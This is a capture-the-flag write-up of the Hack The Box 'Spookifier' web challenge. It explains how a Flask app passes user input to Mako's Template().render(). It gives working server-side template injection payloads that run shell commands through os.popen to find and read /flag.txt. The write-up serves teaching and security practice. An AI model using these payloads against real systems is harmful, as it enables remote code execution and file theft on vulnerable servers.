






# HTB Challenge - Spookifier

**Category:** `Web`  
**Difficulty:** `Very Easy`  
**Tags:** #Web #SSTI #Mako #Flask #SourceReview  
**Flag:** `HTB{...}` *(redact before publishing)*

---
## Synopsis

Spookifier is a Flask web app that converts a name into four “spooky” Unicode fonts. User input is embedded into HTML and passed to **Mako’s** `Template(...).render()`, causing **Server-Side Template Injection (SSTI)**. A `${7*7}` proof-of-concept returns `49`; a two-stage payload (`<% ... %>` plus `${x}`) reads `/flag.txt` from the container.

---
## Skills Required

- Basic web recon (parameters, reflection)
- Reading Python/Flask source when provided

## Skills Learned

- Identifying Mako SSTI sinks (`Template().render()` on user-influenced strings)
- Difference between Mako **code blocks** (`<% %>`) and **output expressions** (`${}` / `<%= %>`)
- Crafting payloads that survive input filtering (here: `font4` preserves punctuation)

---
## Analysis

### Challenge Materials

Downloadable zip (`web_spookifier/`) with full source, plus a remote instance.

```
web_spookifier/
├── challenge/application/
│   ├── blueprints/routes.py   # GET param `text` → spookify()
│   ├── util.py                # font transforms + Mako render (sink)
│   └── main.py                # Flask + flask_mako
├── flag.txt                   # fake local flag only
└── Dockerfile
```



### Initial Recon

Browsing the instance shows a single form backed by the **`text`** query parameter. Submitting `test` returns four table rows — one per font style.

```bash
curl -s 'http://<TARGET_IP>:<PORT>/?text=test' | head
```



A basic SQL injection string is reflected literally (especially in font row 4) with no database errors — not the right vulnerability class.

```
/?text=' or 1=1--
```



### Source Review

In `util.py`, `spookify()` builds HTML from four converted strings, then evaluates it as a Mako template:

```python
from mako.template import Template

def generate_render(converted_fonts):
    result = '''<tr><td>{0}</td></tr> ... '''.format(*converted_fonts)
    return Template(result).render()
```

`change_font()` applies four dictionaries (`font1`–`font4`). Only **`font4`** keeps most punctuation; rows 1–3 map letters and replace unknown characters with spaces. SSTI payloads must remain valid in the final template string (font4 row is the reliable carrier for `${...}` and `<% ... %>`).

---
## Solution

### Step 1 – Confirm Mako SSTI

Because the sink is Mako, test expression evaluation with `${7*7}`. The result **`49`** appears in the output table (font4 row).

```bash
curl -s 'http://<TARGET_IP>:<PORT>/?text=%24%7B7*7%7D'
# Browser: /?text=${7*7}
```



**Note:** `<% 7*7 %>` alone does **not** show `49` — `<% %>` runs Python but does not emit output unless you use `${}`, `<%= %>`, or `print()`.

---
### Step 2 – Locate the flag file (optional)

```text
/?text=<% import os; x = os.popen('find / -name flag.txt').read() %> ${x}
```



---
### Step 3 – Read the flag

Two-part payload: code block to execute, expression to print.

```bash
# Use single quotes so the shell does not expand ${x}
curl -sG 'http://<TARGET_IP>:<PORT>/' \
  --data-urlencode 'text=<% import os; x = os.popen("cat /flag.txt").read() %> ${x}'
```

Or in the browser:

```text
/?text=<% import os; x = os.popen('cat /flag.txt').read() %> ${x}
```



🏁 **Flag obtained**

---
## Solve Script

```bash
python solve.py http://<TARGET_IP>:<PORT>          # print flag
python solve.py http://<TARGET_IP>:<PORT> --poc    # confirm ${7*7} → 49
```

![[spookifier_07_solve_script.png]]

See [`solve.py`](solve.py).

---
## Summary

1. Download and read `util.py` — user input reaches `Template(result).render()`.
2. Confirm SSTI with `/?text=${7*7}` (expect `49` in the page).
3. Execute `cat /flag.txt` via `<% import os; ... %>` and exfiltrate with `${x}`.

---
## Lessons Learned

- **Template engines in the render path = SSTI**, not SQLi — reflection in HTML is not enough to assume a database.
- **Mako `<% %>` vs `${}`:** code blocks execute silently; you need an output tag to see results in the browser.
- **Input transforms still allow SSTI** when one code path (`font4`) preserves the characters your payload needs.
- **Rabbit hole:** SQL injection strings that only appear stylized in the table.

---
## References

- [Mako Template Documentation](https://docs.makotemplates.org/)
- [OWASP — Server-Side Template Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
